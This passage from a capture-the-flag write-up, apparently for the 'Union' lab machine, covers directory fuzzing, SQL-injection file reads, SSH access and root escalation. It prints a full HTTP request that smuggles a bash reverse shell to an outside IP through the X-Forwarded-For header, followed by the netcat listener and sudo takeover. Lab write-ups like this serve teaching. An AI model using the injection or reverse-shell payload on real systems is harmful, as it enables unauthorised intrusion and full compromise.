akku@10.129.46.59: Permission denied (publickey,password).
```

However, even though we have granted access to the `SSH` service running on port 22, we still don't have the password required for the authentication purpose. So, let's go back to exploiting `SQL Injection` & go through the files on the web application itself, but first, we need to fuzz the files on the web application to see if we can get anything interesting out of it.

```
ffuf -u http://10.129.46.59/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.46.59/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1220, Words: 158, Lines: 43, Duration: 17ms]
index.php               [Status: 200, Size: 1220, Words: 158, Lines: 43, Duration: 17ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 15ms]
firewall.php            [Status: 200, Size: 13, Words: 2, Lines: 1, Duration: 17ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
challenge.php           [Status: 200, Size: 772, Words: 48, Lines: 21, Duration: 20ms]
                        [Status: 200, Size: 1220, Words: 158, Lines: 43, Duration: 17ms]
:: Progress: [441094/441094] :: Job [1/1] :: 2500 req/sec :: Duration: [0:03:02] :: Errors: 0 ::
```

`FFUF` found an interesting file on the web application, `config.php`. So, let's try to read it through the `Union Injection`.



Apparently, the payload is not working, so, I tried to write the full path to the file & I'm assuming that the web root directory is at `/var/www/html` since that's the default location of the web root directory.



As we can see, the `config.php` file revealed the credentials for the `uhc` user.

```
ssh uhc@10.129.46.59
uhc@10.129.46.59's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ ls
user.txt
uhc@union:~$ wc -c user.txt
33 user.txt
uhc@union:~$ 
```

And we got into the host as the `uhc` user & we can type out the user flag.

## Privesc

The first thing I did after landing on the host as the `uhc` user, I ran `sudo -l` to see if the user `uhc` has any kind of sudo privileges, but unfortunately the user didn't have any kind of sudo privileges on the box.

```
uhc@union:~$ sudo -l
[sudo] password for uhc: 
Sorry, user uhc may not run sudo on union.
uhc@union:~$ 
```

Then, I proceeded to see if the user has any kind of `cronjobs` running on the box, but unfortunately, didn't find anything there either.

```
uhc@union:~$ crontab -l
no crontab for uhc
uhc@union:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
uhc@union:~$ 
```

The next thing I did was list out the services running on the box.

```
ss -tlnp
State          Recv-Q          Send-Q                   Local Address:Port                    Peer Address:Port         Process         
LISTEN         0               70                           127.0.0.1:33060                        0.0.0.0:*                            
LISTEN         0               151                          127.0.0.1:3306                         0.0.0.0:*                            
LISTEN         0               511                            0.0.0.0:80                           0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                           0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                           0.0.0.0:*                            
LISTEN         0               511                               [::]:80                              [::]:*                            
LISTEN         0               128                               [::]:22                              [::]:*                            
uhc@union:~$ 
```

There were no services running on the box other than `http`, `mysql` & `ssh`. I then decided to take a look at `mysql` database even if I had done it through `Union Injection`.

```
uhc@union:~$ mysql -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 24
Server version: 8.0.27-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> mysql> show database;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'database' at line 1
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| november           |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use november;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+--------------------+
| Tables_in_november |
+--------------------+
| flag               |
| players            |
+--------------------+
2 rows in set (0.00 sec)

mysql> select * from flag;
+---------------------------+
| one                       |
+---------------------------+
| UHC{F1rst_5tep_2_Qualify} |
+---------------------------+
1 row in set (0.00 sec)

mysql> select * from players;
+----------+
| player   |
+----------+
| ippsec   |
| celesian |
| big0us   |
| luska    |
| tinyboy  |
+----------+
5 rows in set (0.00 sec)

mysql>
```

Turns out there were even more players who had already been qualified for the tournament other than `ippsec`. However, I didn't find anything useful here in mysql which could help me, potentially, to escalate my privileges. Since I took a look at all the services running on the box, on TCP ports, I decided to look for interesting files, hoping to get credentials of any sort of hint for the privesc. I started looking at the user `uhc`'s home directory, i.e., `/home/uhc`.

```
uhc@union:~$ pwd
/home/uhc
uhc@union:~$ ls -lah
total 24K
drwxr-xr-x 1 uhc  uhc   136 Aug 22 21:48 .
drwxr-xr-x 1 root root   12 Nov  8  2021 ..
lrwxrwxrwx 1 root root    9 Nov  8  2021 .bash_history -> /dev/null
-rw-r--r-- 1 uhc  uhc   220 Nov  8  2021 .bash_logout
-rw-r--r-- 1 uhc  uhc  3.7K Nov  8  2021 .bashrc
drwx------ 1 uhc  uhc    40 Nov  8  2021 .cache
-rw------- 1 uhc  uhc   193 Aug 22 21:48 .mysql_history
-rw-r--r-- 1 uhc  uhc   807 Nov  8  2021 .profile
-rw-r--r-- 1 root root   33 Aug 22 21:19 user.txt
uhc@union:~$ cat .mysql_history
_HiStOrY_V2_
databases;
database;
databases
;
database;
show\040database;
show\040databases;
use\040november;
show\040tables;
select\040*\040from\040flag;
select\040*\040from\040players;
exit;
uhc@union:~$ 
```

I didn't find anything interesting here, so I moved on to the web root directory, i.e., `/var/www/html`.

```
uhc@union:/$ cd /var/www/html
uhc@union:/var/www/html$ ls
challenge.php  config.php  css  firewall.php  index.php
uhc@union:/var/www/html$
```

Another file that was present inside the web root directory was `firewall.php`, which made sense since the web application clearly stated that my IP Address has been granted access to `SSH`, which couldn't have been done without a firewall functionality.

```
uhc@union:/var/www/html$ cat firewall.php
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
                <h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>

        </div>
        <section class="bg-dark text-center p-5 mt-4">
                <div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
                </div>
        </section>
</div>
uhc@union:/var/www/html$
```

Seems like the `firewall.php` file is first looking for the `X-FORWARDED-FOR` header & if it is not present, then only it is taking the `Remote IP Address` of the person trying to access the file. However, the interesting thing is that after setting up the `$ip`, it is running `iptables` with sudo privilege & there is no filtering going on inside the file. Therefore, we can use inject our command where the `$ip` is by using BurpSuite to add the header ourself.





After updating the request by adding the `X-FORWARDED-FOR` header in the request, we can see at the bottom right corner of `Burpsuite` that the time to fetch the page corresponds to the time we specified in the `sleep` command, which verified the `Command Injection` vulnerability. Now that we know for a fact that the `X-FORWARDED-FOR` header is vulnerable to `Command Injection`, we can now get a reverse shell as the `www-data` user, who seems to have the sudo privileges.

After I sent the following request to the `/firewall.php` endpoint, I got the reverse shell on my netcat listener.

```
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.96.75/challenge.php
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=vvsqkdtvmdico7h48bbvvu0arh
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.15.73/9001 0>&1';


```

```
nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.96.75 54886
bash: cannot set terminal process group (769): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$ 
```

And as I supsected, the user `www-data` has sudo privileges on the box & the user doesn't even have to use password for authentication purposes. Now, we can switch to the `root` user by using `sudo` & get the root flag.

```
www-data@union:~/html$ sudo su -
sudo su -
id
uid=0(root) gid=0(root) groups=0(root)
ls /root
root.txt
snap
wc -c /root/root.txt
33 /root/root.txt
```
